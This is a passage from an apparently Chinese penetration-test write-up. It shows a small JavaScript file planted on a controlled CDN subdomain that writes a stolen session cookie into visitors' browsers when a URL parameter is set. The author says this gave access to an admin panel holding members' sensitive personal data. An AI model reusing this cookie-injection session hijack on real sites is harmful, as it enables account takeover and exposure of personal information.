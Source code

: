 ![image.png](assets/1701237930-1e223946f9f81331160c4f51a186384c.png)  
成功有鱼上钩，我们拿Cookie试一下  
这个时候我别忘了还有一个index.js也是在cdn1的子域下面，所以我们再新建一个index.js执行Cookie写入操作，为了避免影响其他用户，我们特地通过一个url参数来控制执行

```js
// 获取当前页面的 URL
var currentUrl = window.location.href;

// 解析 URL 查询字符串中的参数
var urlParams = new URLSearchParams(currentUrl.split('?')[1]);

// 检查是否存在名为 "us" 的参数，并且它的值是否为 "1"
if (urlParams.has('us') && urlParams.get('us') === '1') {
  // 设置名为 "usCookie" 的 Cookie，值为 "1"
  document.cookie = "这里是我们获取到的Cookie";
}
```

![image.png](assets/1701237930-c0df5ae35b205e4e4333198c54761111.png)  
我们刷新页面，发现自动重定向到后台了，里面有很多会员的身份信息，均为敏感信息。我们做到这里不得不吐槽一句这个单位的数据安全防护太不尽人意了，先后两个系统数据都被泄露。  